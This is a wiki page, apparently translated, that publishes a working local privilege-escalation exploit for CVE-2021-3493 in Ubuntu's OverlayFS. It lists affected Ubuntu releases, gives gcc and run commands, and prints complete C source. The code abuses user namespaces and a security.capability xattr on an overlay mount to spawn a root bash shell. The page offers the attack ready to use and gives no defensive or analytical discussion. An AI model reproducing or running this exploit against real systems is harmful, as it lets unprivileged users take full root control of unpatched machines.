 <languages   />

<translate>

影響版本
--------

</translate>

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM

    Fixed in Linux 5.11

<translate>

截圖
----

</translate>

[800px](FIle:2021-04-21_16.24.30.jpg "wikilink") <translate>

使用教程
--------

</translate>

    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit

EXP
---

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <err.h>
    #include <errno.h>
    #include <sched.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/mount.h>

    //#include <attr/xattr.h>
    //#include <sys/xattr.h>
    int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


    #define DIR_BASE    "./ovlcap"
    #define DIR_WORK    DIR_BASE "/work"
    #define DIR_LOWER   DIR_BASE "/lower"
    #define DIR_UPPER   DIR_BASE "/upper"
    #define DIR_MERGE   DIR_BASE "/merge"
    #define BIN_MERGE   DIR_MERGE "/magic"
    #define BIN_UPPER   DIR_UPPER "/magic"


    static void xmkdir(const char *path, mode_t mode)
    {
        if (mkdir(path, mode) == -1 && errno != EEXIST)
            err(1, "mkdir %s", path);
    }

    static void xwritefile(const char *path, const char *data)
    {
        int fd = open(path, O_WRONLY);
        if (fd == -1)
            err(1, "open %s", path);
        ssize_t len = (ssize_t) strlen(data);
        if (write(fd, data, len) != len)
            err(1, "write %s", path);
        close(fd);
    }

    static void xcopyfile(const char *src, const char *dst, mode_t mode)
    {
        int fi, fo;

        if ((fi = open(src, O_RDONLY)) == -1)
            err(1, "open %s", src);
        if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
            err(1, "open %s", dst);

        char buf[4096];
        ssize_t rd, wr;

        for (;;) {
            rd = read(fi, buf, sizeof(buf));
            if (rd == 0) {
                break;
            } else if (rd == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "read %s", src);
            }

            char *p = buf;
            while (rd > 0) {
                wr = write(fo, p, rd);
                if (wr == -1) {
                    if (errno == EINTR)
                        continue;
                    err(1, "write %s", dst);
                }
                p += wr;
                rd -= wr;
            }
        }

        close(fi);
        close(fo);
    }

    static int exploit()
    {
        char buf[4096];

        sprintf(buf, "rm -rf '%s/'", DIR_BASE);
        system(buf);

        xmkdir(DIR_BASE, 0777);
        xmkdir(DIR_WORK,  0777);
        xmkdir(DIR_LOWER, 0777);
        xmkdir(DIR_UPPER, 0777);
        xmkdir(DIR_MERGE, 0777);

        uid_t uid = getuid();
        gid_t gid = getgid();

        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
            err(1, "unshare");

        xwritefile("/proc/self/setgroups", "deny");

        sprintf(buf, "0 %d 1", uid);
        xwritefile("/proc/self/uid_map", buf);

        sprintf(buf, "0 %d 1", gid);
        xwritefile("/proc/self/gid_map", buf);

        sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
        if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
            err(1, "mount %s", DIR_MERGE);

        // all+ep
        char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

        xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
        if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
            err(1, "setxattr %s", BIN_MERGE);

        return 0;
    }

    int main(int argc, char *argv[])
    {
        if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
            setuid(0);
            setgid(0);
            execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
            err(1, "execl /bin/bash");
        }

        pid_t child = fork();
        if (child == -1)
            err(1, "fork");

        if (child == 0) {
            _exit(exploit());
        } else {
            waitpid(child, NULL, 0);
        }

        execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
        err(1, "execl %s", BIN_UPPER);
    }

Github
------

<https://github.com/briskets/CVE-2021-3493>
